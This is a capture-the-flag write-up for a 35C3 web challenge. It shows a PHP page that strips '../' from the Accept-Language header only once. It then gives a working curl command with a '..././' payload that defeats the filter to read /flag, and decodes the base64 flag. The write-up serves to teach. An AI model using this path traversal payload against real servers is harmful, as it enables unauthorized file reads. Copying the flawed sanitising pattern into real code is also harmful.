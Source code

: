 
# Challenge Equality Error

## Challenge

Fun with flags: http://35.207.169.47

Flag is at /flag

Difficulty estimate: Easy


## Solution

If we navigate to the given url the following PHP code is presented to us.

```
<?php
  highlight_file(__FILE__);
  $lang = $_SERVER['HTTP_ACCEPT_LANGUAGE'] ?? 'ot';
  $lang = explode(',', $lang)[0];
  $lang = str_replace('../', '', $lang);
  $c = file_get_contents("flags/$lang");
  if (!$c) $c = file_get_contents("flags/ot");
  echo '<img src="data:image/jpeg;base64,' . base64_encode($c) . '">';
```

We figured out it must be in / of the webserver.

We can put a path in the Accept-Language header of the GET request, but '../' is escaped. Therefore a bit of creativity is needed: 

```
# curl -H 'Accept-Language: ..././..././..././..././..././..././flag' http://35.207.169.47/
```

The HTML in the response contains an image with our flag:

```
<img src="data:image/jpeg;base64,MzVjM190aGlzX2ZsYWdfaXNfdGhlX2JlNXRfZmw0Zwo=">
```

Since the data is encoded, we need to decode it:
```
# echo 'MzVjM190aGlzX2ZsYWdfaXNfdGhlX2JlNXRfZmw0Zwo=' | base64 --decode
35c3_this_flag_is_the_be5t_fl4g
```

